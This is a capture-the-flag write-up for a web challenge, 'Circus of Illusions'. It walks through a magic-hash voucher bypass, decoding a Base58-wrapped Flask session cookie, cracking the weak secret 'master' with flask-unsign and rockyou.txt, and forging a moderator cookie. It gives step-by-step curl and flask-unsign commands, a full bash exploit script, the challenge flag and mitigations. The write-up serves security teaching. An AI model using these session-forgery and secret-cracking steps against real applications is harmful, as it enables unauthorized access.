


# Circus of Illusions — Full Writeup

**Challenge Author:** N1gh7R4v3n
**Category:** Web (Session Forgery / Magic Hash)
**Difficulty:** Easy
**Flag:** `Spark{d0n7_7ru57_7h3_juggl3r_5858}`

---

## 1. Challenge Overview


The **Circus of Illusions** is a theatrical web CTF challenge about **session forgery via magic hashes and weak Flask secrets**. Players must navigate through a carnival-themed web application to reach the "Director's Inner Sanctum" and capture the flag.

The exploitation chain consists of five phases:

1. **View Source** — Find a PHP magic hash hint in the HTML source code
2. **Magic Voucher** — Submit a `0e...` MD5 magic hash to bypass voucher validation
3. **Base58 Decoding** — Extract and decode the Base58-encoded session cookie
4. **Brute-Force Secret** — Crack the Flask `secret_key` using a wordlist
5. **Session Forgery** — Forge a `moderator` cookie to access the inner sanctum

### Route Map

| Route | Access | Description |
|-------|--------|-------------|
| `/` | Public | Landing page with magic hash hint in HTML comment |
| `/enter` (POST) | Public | Voucher submission |
| `/dashboard` | Any valid session | Member lounge with encoded pass |
| `/moderator` | `role=moderator` | Inner sanctum with the flag |
| `/exit` | Any session | Clears session |

---

## 2. Reconnaissance & Enumeration


### View Source — The Magic Hash Hint

Opening `http://<target>:3777/` and viewing the page source (`Ctrl+U`) reveals a PHP comment on the very first line:

```html
<!-- <?php $voucher = $_GET['md5']; $voucher_hash = md5($voucher);
if ($voucher_hash == md5($voucher_hash)) {
  echo "Your pass has been encoded the same way Bitcoin protects its addresses.";
} else { echo " :'| "; } ?> -->
```

Two critical clues stand out:

1. **PHP Loose Comparison (`==`)** — The `==` operator in PHP performs type juggling. If both operands are strings in scientific notation format (`0e...`), PHP evaluates them as floats — and `0e...` equals `0e...` because both are zero in scientific notation. This is the **PHP magic hash** vulnerability.

2. **Bitcoin Address Encoding** — The mention of "the same way Bitcoin protects its addresses" points to **Base58**, the encoding Satoshi Nakamoto designed for Bitcoin addresses (character set excludes `0/O/I/l` to prevent visual ambiguity).

### The Voucher Input

The page contains a voucher input form. A known PHP magic hash is `0e215962017` — its MD5 digest is `0e291242476940386848410150989048`, also in `0e...` format. This is the key to entering the Member Lounge.

---

## 3. Vulnerability Analysis

### Vulnerability 1: PHP Type Juggling (Magic Hash)

Although this is a Flask (Python) application, it deliberately mimics PHP's loose comparison behavior. The server validates the voucher by checking that **both** the input string and its MD5 hash match the regex `^0e[0-9]+$`:

```python
# Server-side logic (reconstructed from behavior)
md5_hash = hashlib.md5(voucher.encode()).hexdigest()
voucher_is_magic = (
    re.match(r'^0e[0-9]+$', voucher) and
    re.match(r'^0e[0-9]+$', md5_hash)
)
```

When this condition is true, access is granted as a `visitor`. The magic hash `0e215962017` satisfies both conditions:

- `0e215962017` matches `^0e[0-9]+$` ✓
- MD5(`0e215962017`) = `0e291242476940386848410150989048` matches `^0e[0-9]+$` ✓

**Impact**: Voucher validation bypass — any user with knowledge of magic hashes gains access without a real ticket.

### Vulnerability 2: Base58 Obfuscation

The dashboard displays a **"Digital Entry Pass"** with a blurred encoded string and a hint:

> *"To avoid confusing characters like 0, O, I, and l, Satoshi Nakamoto chose a more human-friendly encoding."*

The encoded string is the Flask session cookie re-encoded in Base58. This is a **security-by-obscurity** layer — the underlying data is still just a signed Flask session.

### Vulnerability 3: Weak Flask Secret Key

Flask signs session cookies using `itsdangerous` with a `secret_key`. The `secret_key` is hardcoded as `"master"` — a password found in `rockyou.txt`. This allows trivial session forgery once the cookie is obtained.

Since Flask sessions are **signed, not encrypted**, the payload is visible in base64:

```
eyJyb2xlIjoidmlzaXRvciJ9  →  {"role":"visitor"}
```

---

## 4. Exploit Development

### Step 1: Enter the Magic Voucher

Submit the magic hash `0e215962017` in the voucher field:

```bash
curl -X POST "http://<target>:3777/enter" \
  -d "voucher=0e215962017" \
  -c cookies.txt
```

The server validates both the input and its MD5 hash as `0e...` format, grants `visitor` role, and redirects to `/dashboard`.

### Step 2: Extract the Base58-Encoded Session

The dashboard shows a **Base58-encoded** entry pass. Decode it:

```bash
echo "55JJ6qVnPN2MASoiXAhYyaW8WqqDVwkFhmWBQYgyP2iFd7TXpxBWAssSag5PqpDGscsArtutFZJnYecrx" | base58 -d

# eyJyb2xlIjoidmlzaXRvciJ9.ahCsug.hAefL194CT-7FmIyk7HlqXvskOU
```

The decoded string is the raw Flask session cookie. The payload decodes to:

```json
{"role":"visitor"}
```


### Step 3: Crack the Flask Secret Key

Using `flask-unsign` with the `rockyou.txt` wordlist:

```bash
pip install flask-unsign

flask-unsign --unsign --cookie "eyJyb2xlIjoidmlzaXRvciJ9.ahCsug.hAefL194CT-7FmIyk7HlqXvskOU" --wordlist rockyou.txt
```

Output:
```
[*] Session decodes to: {"role":"visitor"}
[*] Starting brute-forcer...
[+] Found secret key: "master"
```

The secret is **`"master"`** — a weak, common password.

### Step 4: Forge a Moderator Session

```bash
flask-unsign --sign --cookie "{'role': 'moderator'}" --secret master
```

Output:
```
eyJyb2xlIjoibW9kZXJhdG9yIn0.ahCs2g.-SUCnd-WcHMkOs2ocxaCM8cdA4c
```

### Step 5: Access the Inner Sanctum

Replace the `session` cookie in the browser with the forged moderator cookie and navigate to `/moderator`.

Attempting access as a `visitor` yields the **denied page**:


With the forged `moderator` cookie, the **Director's Inner Sanctum** is revealed:



```
Spark{d0n7_7ru57_7h3_juggl3r_5858}
```

---

## 5. Full Exploit Code

### Bash One-Liner

```bash
# Step 1: Get session via magic hash
curl -s -c cookies.txt -X POST "http://<target>:3777/enter" \
  -d "voucher=0e215962017" > /dev/null

# Step 2: Extract cookie and decode
COOKIE=$(curl -s -b cookies.txt "http://<target>:3777/dashboard" | \
  grep -oP 'entry-pass">\K[^<]+' | base58 -d)

# Step 3: Crack secret (flask-unsign required)
flask-unsign --unsign --cookie "$COOKIE" --wordlist rockyou.txt

# Step 4: Forge moderator cookie
FORGED=$(flask-unsign --sign --cookie "{'role': 'moderator'}" --secret master)

# Step 5: Get flag
curl -s -b "session=$FORGED" "http://<target>:3777/moderator" | grep -oP 'Spark\{[^}]+\}'
```

---

## 6. Mitigation Recommendations

| Issue | Vulnerability | Mitigation |
|-------|--------------|------------|
| **Magic Hash Bypass** | `0e...` strings bypass type-juggle checks | Use strict comparison (`===` in PHP, `!=` in Python); validate voucher against a database |
| **Base58 Obfuscation** | Non-standard encoding provides no real security | Don't rely on obscure encodings for access control |
| **Weak Secret Key** | `"master"` is in rockyou.txt — trivially crackable | Generate a random, high-entropy `secret_key` via `os.urandom(24)` |
| **Signed-Not-Encrypted** | Flask session payload is visible in base64 | Store sensitive data server-side; use server-side sessions |
| **Client-Side Role** | Role stored in user-controlled cookie | Enforce permissions server-side; never trust the client |

---

## 7. Lessons Learned

### What Makes This Challenge Interesting

1. **Multi-layered obfuscation**: The challenge chains three distinct techniques — magic hashes, Base58 encoding, and weak secret cracking — each requiring different tools and knowledge.

2. **PHP-ism in a Python app**: The magic hash vulnerability is a quintessential PHP trick, but this Flask app deliberately implements the same logic, teaching that type confusion is language-agnostic.

3. **Base58 as a puzzle**: Recognizing Base58 requires connecting the Bitcoin reference in the HTML comment to the Satoshi hint on the dashboard — a satisfying "aha" moment.

4. **Real-world session danger**: The challenge demonstrates that Flask sessions are signed, not encrypted, and that a weak `secret_key` undermines the entire session security model.

### Vulnerability Classes

- **CWE-185**: Incorrect Regular Expression
- **CWE-807**: Reliance on Untrusted Inputs in a Security Decision
- **CWE-521**: Weak Password Requirements
- **CWE-287**: Improper Authentication
- **CWE-602**: Client-Side Enforcement of Server-Side Security

---

## 8. References

- [PHP Magic Hashes](https://github.com/spaze/hashes)
- [PHP Type Juggling](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Type%20Juggling)
- [Base58Check — Bitcoin Wiki](https://en.bitcoin.it/wiki/Base58Check_encoding)
- [Flask Sessions Documentation](https://flask.palletsprojects.com/en/2.3.x/quickstart/#sessions)
- [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) — Decode/forge Flask sessions
- [OWASP: Session Management](https://owasp.org/www-community/attacks/Session_fixation)

---

### Challenge Author

- **Author**: [N1gh7R4v3n]
- [LinkedIn](https://www.linkedin.com/in/n1gh7r4v3n/)
